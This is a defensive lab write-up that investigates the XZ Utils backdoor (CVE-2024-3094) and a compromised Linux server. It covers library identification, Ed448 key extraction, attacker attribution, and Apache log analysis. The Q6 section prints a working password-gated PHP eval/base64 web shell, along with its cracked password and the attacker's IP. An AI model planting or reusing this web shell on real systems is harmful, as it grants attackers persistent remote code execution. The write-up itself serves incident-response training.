

# XZBackDoor Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/xzbackdoor/](https://cyberdefenders.org/blueteam-ctf-challenges/xzbackdoor/)

Suggested tools: Linux Command Line Tools, GitHub, MD5 Center

Tactics: Execution, Persistence, Stealth, Command and Control

# Scenario

You are part of the incident response team at a mid-sized financial services company. Recently, your network monitoring systems flagged unusual SSH traffic patterns coming from one of your Linux servers. Preliminary analysis indicates potential unauthorized access, which may compromise the security and integrity of your network.

The affected server is running a version of the Linux operating system that includes the XZ Utils software package, versions 5.6.0 and 5.6.1. These versions are known to contain a sophisticated backdoor vulnerability that was intentionally inserted as part of a complex cyber-espionage campaign. Your task is to determine how the threat actor gained access and to trace back their tactics, techniques, and procedures (TTPs).

# Questions

Q1- While analyzing the compromised Linux server running XZ Utils, we need to identify specific system vulnerabilities. Could you provide the full path to the backdoored library?

Answer: `/usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1`

Reason: `ldd $(which xz)` showed `xz` loads `liblzma.so.5`, resolved via symlink at `/lib/x86_64-linux-gnu/liblzma.so.5`. Resolving that symlink with `readlink -f` revealed the real file `liblzma.so.5.6.1` under `/usr/lib/x86_64-linux-gnu/`, confirming version `5.6.1`, one of the two backdoored releases (CVE-2024-3094).

```bash
ubuntu@ip-172-31-31-173:~$ ldd $(which xz)
	linux-vdso.so.1 (0x00007fff62979000)
	liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 (0x000079b5bd287000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x000079b5bd000000)
	/lib64/ld-linux-x86-64.so.2 (0x000079b5bd2f0000)
ubuntu@ip-172-31-31-173:~$ readlink -f /lib/x86_64-linux-gnu/liblzma.so.5
/usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
```

Q2- Investigate the backdoored XZ Utils library found on the compromised system. Can you locate and extract the public key that the threat actor embedded within this file during the compromise?

Answer: `e52625358384746d50880ad7d99ad8a672e38e529d04eec5130061b0906d57c5ade828bcf5883ce6977cf4f5f6b947f7ce388528adae165800`

Reason: The backdoored library `/usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1` was dumped as a continuous hex stream with `hexdump -ve '1/1 "%.2X"'`, then split on the three-byte `909090` marker (three consecutive `0x90` `NOP` opcodes used by the threat actor to pad/flag the embedded key). The 114 hex characters immediately following the marker (57 bytes, the standard length of a raw Ed448 public key) were extracted with `awk`, yielding the attacker's embedded Ed448 public key used to sign and authorize the backdoor's command payload.

```bash

ubuntu@ip-172-31-31-173:~$ hexdump -ve '1/1 "%.2X"' /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1 | awk -F '909090' '{print substr($2,0,114)}'
E52625358384746D50880AD7D99AD8A672E38E529D04EEC5130061B0906D57C5ADE828BCF5883CE6977CF4F5F6B947F7CE388528ADAE165800
```

Q3- The investigation has traced back some entries to a GitHub account, what is the username associated with these activities that introduced the backdoor?

Answer: JiaT75

Reason: The GitHub commit history on the `xz-utils` repository shows the account `JiaT75` as the committer behind a long series of commits on `2024-03-08`, including `Add NEWS for 5.6.1` and multiple `liblzma`/test-file changes that led into the backdoored `5.6.1` release. `JiaT75` is the same maintainer identity (publicly known as "Jia Tan") that gained commit access over roughly two years of social-engineered trust-building before inserting the malicious build-time code.

Reference: [https://jfrog.com/blog/xz-backdoor-attack-cve-2024-3094-all-you-need-to-know/](https://jfrog.com/blog/xz-backdoor-attack-cve-2024-3094-all-you-need-to-know/)



Q4- To build a timeline of the threat actor's preparation, when was the GitHub account that deployed the backdoor first registered?

Answer: `2021-01-26 18:11`

Reason: Querying the GitHub REST API for the `JiaT75` account's metadata returned `created_at: 2021-01-26T18:11:07Z`, meaning the account existed over three years before the backdoored `5.6.1` release shipped on `2024-03-09`, consistent with the long-term trust-building pattern behind this compromise.

```bash
$ curl https://api.github.com/users/JiaT75 | grep created
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100   1303 100   1303   0      0   7155      0                              0
  "created_at": "2021-01-26T18:11:07Z"
```

Q5- For a deeper dive into the initial breach, could you fetch the URL of the first commit made by the threat actor to the XZ GitHub repository?

Answer: `https://github.com/tukaani-project/xz/commit/6468f7e41a8e9c611e4ba8d34e2175c5dacdbeb4`

Reason: Browsing `JiaT75`'s commit history on the `tukaani-project/xz` repository and sorting to the earliest entry identified this commit as the first contribution made by the threat actor to the project, marking the start of their trust-building activity ahead of the eventual backdoor insertion.

Q6- Getting back to our compromised server, we suspect a persistent threat. Can you identify the MITRE sub-technique ID associated with the persistence method used by the attacker in this case?

Answer: T1505.003

Reason: Examining `/var/www/html/index.php` revealed the password-gated, Base64-obfuscated `eval()` backdoor embedded directly in the site's public-facing PHP code, giving the attacker persistent remote code execution through normal HTTP requests any time afterward. This matches MITRE ATT&CK `T1505.003` (Server Software Component: Web Shell), the sub-technique for planting a malicious script within a legitimate web application to maintain access.

```bash
root@ip-172-31-27-206:/home/ubuntu# cat /var/www/html/index.php 
<?php

// Comment these lines to hide errors
error_reporting(E_ALL);
ini_set('display_errors', 1);

require 'includes/config.php';
require 'includes/functions.php';

init();
if (@$_POST['do'] && @md5(md5($_POST['pass'])) == '696d29e0940a4957748fe3fc9efd22a3') {
    $x = "\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";
    @eval($x($_POST['do']));
    exit();
}
```

Q7- To correlate with our external traffic logs, what was the IP address used by the attacker during the suspected unauthorized access events?

Answer: `44.207.251.118`

Reason: Searching Apache's access log for `POST` requests against `/index.php` (the web shell identified in Q6) surfaced repeated hits from `44.207.251.118` beginning at `2024-04-12 08:54:10 UTC`, confirming this as the source IP used to interact with the backdoor via the `do`/`pass` POST parameters.

```bash
root@ip-172-31-27-206:/home/ubuntu# grep -r POST /var/log/apache2/* | grep index | head -n 2
/var/log/apache2/access.log.1:44.207.251.118 - - [12/Apr/2024:08:54:10 +0000] "POST /index.php HTTP/1.1" 200 2323 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
/var/log/apache2/access.log.1:44.207.251.118 - - [12/Apr/2024:08:54:56 +0000] "POST /index.php HTTP/1.1" 200 74372 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
```

Q8- To accurately log and analyze the sequence of the unauthorized activities, when was the first command executed through the persistence mechanism by the attacker?

Answer: `2024-04-12 08:54`

Reason: The earliest `POST /index.php` request from `44.207.251.118` (identified in Q7) was logged at `2024-04-12 08:54:10 UTC`, marking the first command executed through the web shell persistence mechanism.

Q9- Understanding the means of unauthorized access is vital, which key did the attacker use to gain entry through the persistence mechanism deployed?

Answer: `password`

Reason: The web shell's auth gate (`/var/www/html/index.php`, Q6) required `md5(md5($_POST['pass']))` to equal `696d29e0940a4957748fe3fc9efd22a3`. Submitting that hash to CrackStation's hash-cracking database returned an exact match (`md5(md5)` type), revealing the plaintext value `password` as the key the attacker used to authenticate to the web shell.


Q10- To ensure complete remediation, it is crucial to understand the attacker's fallback strategies. Specifically, what is the first new file name that the threat actor attempted to create as a backup measure to maintain their foothold?

Answer: `index_backup.php`

Reason: Searching `/var/log/apache2/error.log*` for `cp` output surfaced two failed attempts by the attacker to copy the web shell (`index.php`) to backup filenames for redundant persistence, both denied due to insufficient `www-data` permissions. `index_backup.php` appears first in the log, making it the first attempted fallback filename, followed by `backup.php`.

```bash
root@ip-172-31-27-206:/home/ubuntu# grep cp /var/log/apache2/error.log*
/var/log/apache2/error.log.1:cp: cannot create regular file 'index_backup.php': Permission denied
/var/log/apache2/error.log.1:cp: cannot create regular file 'backup.php': Permission denied
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2022-02 (approx) | Initial Access | `JiaT75` begins contributing to `tukaani-project/xz` on GitHub, first commit at `https://github.com/tukaani-project/xz/commit/6468f7e41a8e9c611e4ba8d34e2175c5dacdbeb4`, building trust over time | T1195.002 |
| 2024-03-08 | Execution / Defense Evasion | `JiaT75` commits `Add NEWS for 5.6.1` and related changes inserting the backdoor into `liblzma` ahead of release | T1195.002, T1027 |
| 2024-03-09 | Execution | Backdoored `xz` `5.6.1` released, installing `/usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1` with embedded Ed448 public key (`909090` marker + 57-byte key) | T1554 |
| 2024-04-12 08:54 | Persistence | First `POST /index.php` request from `44.207.251.118` interacts with the password-gated, Base64-obfuscated `eval()` web shell in `/var/www/html/index.php` (key: `password`) | T1505.003 |
| 2024-04-12 (unspecified) | Defense Evasion / Persistence (failed) | Attacker attempts `cat /tmp/.xz` (file not found) and `cp` to `index_backup.php`/`backup.php` for web shell redundancy, both denied due to `www-data` permissions | T1505.003 |

## Attack Tree

```bash
[Supply-chain compromise]  ← JiaT75 → tukaani-project/xz
    └── GitHub account `JiaT75` created 2021-01-26 18:11 UTC
        └── First commit 2022 (hxxps://github[.]com/tukaani-project/xz/commit/6468f7e41a8e9c611e4ba8d34e2175c5dacdbeb4)
            └── Trust-building contributions over ~2 years
                └── [Stage 1 — Backdoor Insertion, 2024-03-08]
                    └── Commits to `liblzma` build scripts / test fixtures
                        └── `xz` 5.6.1 released 2024-03-09  ← ships `liblzma.so.5.6.1`
                            └── Embedded Ed448 public key (57 bytes after `909090` marker)
                                └── Hooked `RSA_public_decrypt` verifies attacker signature → payload via ChaCha20 → `system()`
                ├── [Stage 2 — Web Shell Persistence]
                │   └── `/var/www/html/index.php` (password-gated `eval(base64_decode($_POST['do']))`, key: `password`)
                │       └── First access 2024-04-12 08:54:10 UTC from `44.207[.]251.118`
                │           ├── `cat /tmp/.xz` ← failed, file not found
                │           └── `cp index.php → index_backup.php` / `backup.php` ← failed, Permission denied
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Supply Chain | Compromised library | `/usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1` |
|  | Backdoored versions | `5.6.0`, `5.6.1` |
|  | CVE | `CVE-2024-3094` |
|  | GitHub account | `JiaT75` |
|  | Account creation | `2021-01-26 18:11 UTC` |
|  | First commit | `https://github.com/tukaani-project/xz/commit/6468f7e41a8e9c611e4ba8d34e2175c5dacdbeb4` |
| Embedded Key | Marker | `909090` (three `0x90` bytes) |
|  | Public key (57 bytes) | `e52625358384746d50880ad7d99ad8a672e38e529d04eec5130061b0906d57c5ade828bcf5883ce6977cf4f5f6b947f7ce388528adae165800` |
|  | Algorithm | Ed448 |
| Web Shell | Path | `/var/www/html/index.php` |
|  | Auth hash | `696d29e0940a4957748fe3fc9efd22a3` (md5(md5(pass))) |
|  | Cracked password | `password` |
|  | Obfuscated function | `base64_decode` (hex-escaped) |
|  | MITRE | `T1505.003` |
| Network | Attacker IP | `44.207[.]251.118` |
|  | First access | `2024-04-12 08:54:10 UTC` |
|  | User-Agent | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36` |
| Post-Exploitation | Missing file lookup | `/tmp/.xz` (not found) |
|  | Failed backup attempt | `index_backup.php` (Permission denied) |
|  | Failed backup attempt | `backup.php` (Permission denied) |

# Lab Insights

- **Trust is a slow-burn attack surface:** The `JiaT75` account was registered in `2021` and spent roughly two years building legitimate contribution history before the backdoor ever appeared. Supply-chain compromises of open-source infrastructure don't need a technical zero-day when patient social engineering and maintainer burnout can earn the same commit access.
- **Signatures prove identity, not intent:** Even a fully GPG-signed, cryptographically valid commit history offers no defense against a maintainer who is malicious from day one — a Web of Trust model hardens *who* committed code, not *whether* that code is safe, which is exactly the gap this incident exploited.
- **Obfuscation hides in plain sight by targeting review blind spots:** The Ed448 key wasn't encrypted, just marked with a trivial `909090` byte pattern in a region no one reads as code, and the web shell's `base64_decode` call was hex-escaped purely to dodge string-based grep/signature detection. Both techniques work not because they're sophisticated, but because they exploit where analysts and reviewers typically *don't* look — build scripts, binary data regions, and literal string matching.
- **Application logs leak OS-level execution incidentally:** Apache's error log captured raw `cat`/`cp` shell failures with no special logging configuration, simply because PHP's `eval()`driven code execution inherited Apache's own `stderr`. This is a reminder that any app allowing code execution can turn its own log files into an unexpected source of attacker command visibility.
- **Failed actions are still high-value evidence:** The attacker's denied `cp` attempts to create `index_backup.php` and `backup.php` revealed deliberate persistence-redundancy intent even though both failed — demonstrating that permission-restricted failures in logs are not noise, they're a window into planned (if unsuccessful) TTPs.